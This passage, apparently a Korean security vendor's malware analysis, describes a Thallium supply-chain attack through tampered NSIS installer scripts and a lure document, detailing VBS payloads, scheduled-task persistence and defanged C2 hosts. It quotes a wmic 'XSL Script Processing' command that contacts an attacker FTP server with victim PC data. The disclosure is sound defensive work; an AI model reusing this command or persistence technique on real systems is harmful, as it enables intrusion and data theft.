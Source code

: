 이번에 발견된 유형은 2가지로 'wmic.exe' 명령을 통해 특정 FTP 서버로 접속해 추가 명령어 파일을 다운로드 합니다. 여기서 사용하는 것은 'XSL Script Processing' 기법입니다.
 
[그림 2] 악성 명령이 추가된 NSIS 스크립트 사례 A


 
[그림 3] 악성 명령이 추가된 NSIS 스크립트 사례 B


 
추가로 받아지는 파일은 VBS 명령어 기반으로 실행되며, %ProgramData% 하위 폴더에 'OracleCache', PackageUninstall', 'USODrive' 등을 생성합니다. 그리고 'frog.smtper[.]co' 서버로 접속해 추가 명령을 수행합니다.
 
[그림 4] VBS 명령 모습


 
그리고 작업 스케줄러에 'Office365__' 라이브러리를 등록하고 하위에 [Windows\Office] 경로에 'activate' 이름으로 15분 간격으로 반복실행하는 트리거를 설정합니다.
 
여기서 사용되는 동작 프로그램은 'OracleCache' 폴더에 생성된 'usopub.vbs' 이며, 이것 역시 wmic 명령을 통해 주기적으로 FTP 주소로 접속을 시도하게 됩니다.
 
"wmic os get /format:""ftp://(생략)@frog.smtper[.]co/frog/[사용자 PC 정보]/usoshare"""
 
그리고 위협 행위자는 수집된 1차 정보를 기반으로 감염자를 선별해 추가 원격제어(RAT) 도구를 내려보내게 됩니다.
 
[그림 5] 악성 스크립트가 설정된 작업 스케줄러 화면


 
아울어 공격자가 사용한 서버에는 Leaf Smtper 이메일 전송 프로그램이 등록되어 있습니다.
 
[그림 5-1] 이메일 전송 프로그램 화면


 
ESRC에서는 동일한 기법을 사용하는 악성 문서 파일도 발견했습니다. 이 파일은 마치 보호된 문서처럼 화면을 조작했고, [콘텐츠 사용] 버튼 클릭을 유도합니다.
 
만약 이용자가 [콘텐츠 사용] 버튼을 클릭하게 되면 내부에 포함된 동일한 wmic os get 명령을 통해 위협 행위자가 지정한 FTP 서버(search.greenulz[.]com)로 통신을 수행합니다.
 
[그림 6] 악성 문서 실행시 보여지는 화면


 
[그림 7] 콘텐츠 사용 후 보여지는 화면


 
ESRC는 탈륨 조직이 'XSL Script Processing' 기법을 악성 문서 기반의 스피어 피싱 공격뿐만 아니라 공급망 공격까지 틈새 공격에 활용하고 있다는 점에 주목하고 있습니다.
 
더불어 주식투자 이용자를 겨냥한 공급망 공격 목적이 금전적인 수익까지 노린 것은 아닌지 여부도 면밀히 살펴보고 있습니다.이처럼 최근 유사한 기법의 공격들이 증가하고 있으므로, 조금이라도 신뢰하기 어렵거나 수상한 이메일은 함부로 열람하지 않는 것이 중요합니다. 또한 알약(ALYac) 백신 제품에 관련 악성파일 탐지 및 치료 기능을 지속적으로 추가하고 있으므로 항상 최신 버전으로 업데이트해 주시길 바랍니다.  
 
 







공유하기

게시글 관리
